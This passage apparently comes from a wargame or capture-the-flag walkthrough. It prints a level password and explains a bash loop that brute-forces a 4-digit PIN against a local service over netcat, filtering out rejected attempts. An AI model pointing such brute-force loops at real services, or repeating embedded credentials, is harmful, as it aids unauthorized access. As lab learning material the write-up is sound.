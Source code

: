 Level password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

For connecting and brute forcing, we could create a script for this:

```sh
for i in {0..9999};
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ${i}";
done | nc localhost 30002 | grep -v "Wrong"
```

We iterate from *0* to *9999* using a for loop, then echo the password of the current level with the current iteration index. Then we pipe it into `netcat`. The invert grep `grep -v` allows us to filter for any output that doesn't contain the word *Wrong* in it, the word that indicates incorrect password. So we just grab output lines that are correct.

We could also use `seq` for this:

```sh
for i in $(seq 0 9999);
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ${i}";
done | nc localhost 30002 | grep -v "Wrong"
```